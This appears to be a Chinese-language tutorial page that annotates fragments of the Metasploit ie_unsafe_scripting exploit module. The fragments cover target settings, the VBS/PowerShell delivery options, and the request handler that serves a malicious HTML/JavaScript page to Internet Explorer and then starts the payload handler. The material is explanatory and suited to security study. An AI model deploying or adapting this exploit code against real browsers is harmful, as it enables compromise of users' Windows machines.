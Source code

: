 ```
          source:          'script',
          os_name:         OperatingSystems::Match::WINDOWS,
          ua_name:         HttpClients::IE,
          vuln_test:       VULN_CHECK_JS,
          vuln_test_error: 'WScript.Shell or Scripting.FileSystemObject not allowed by browser.'
        },
        'Arch'                => ARCH_X86,

        # 攻击目标为 Windows x86/x64 操作系统 
        'Targets'             =>
          [
            [ 'Windows x86/x64', {} ]
          ],
        
        # 默认选项设置
        'DefaultOptions'      =>
          {
            'HTTP::compression' => 'gzip'
          },
        'DefaultTarget'  => 0
      ))
 
    # 注册选项，存储相关的注册函数
    register_options(
        [
           OptBool.new('ALLOWPROMPT', [true, 'Allow exploit to ignore the protected mode prompt', false]),
           OptEnum.new('TECHNIQUE', [true, 'Delivery technique (VBS Exe Drop or PSH CMD)', 'VBS', ['VBS','Powershell']])
        ], self.class
    )
  end
```
紧接着上面的 Ruby 源码，这部分为 `ie_unsafe_scripting ` 的中间部分源码：
```
  # 监听攻击请求的 on_request_exploit 函数
  # 在生成特定的链接之后，需要进行监听等待目标靶机的 IE 浏览器访问生成页面
  def on_request_exploit(cli, request, browser)
    if has_protected_mode_prompt?(browser)
      print_warning("This target possibly has Protected Mode, exploit aborted.")
      send_not_found(cli)
      return
    end

    # 构建目标靶机访问的攻击页面
    var_shellobj = rand_text_alpha(rand(5)+5)

    p = regenerate_payload(cli)
    if datastore['TECHNIQUE'] == 'VBS'
      js_content = vbs_technique(var_shellobj, p)
    else
      js_content = psh_technique(var_shellobj, p)
    end

    print_status("Request received for #{request.uri}")
    print_status("Sending exploit html/javascript");

    # 发送响应到客户端
    send_response(cli, js_content, { 'Content-Type' => 'text/html' })

    # 处理特定的有效载荷 payload 这个东西
    handler(cli)
  end
```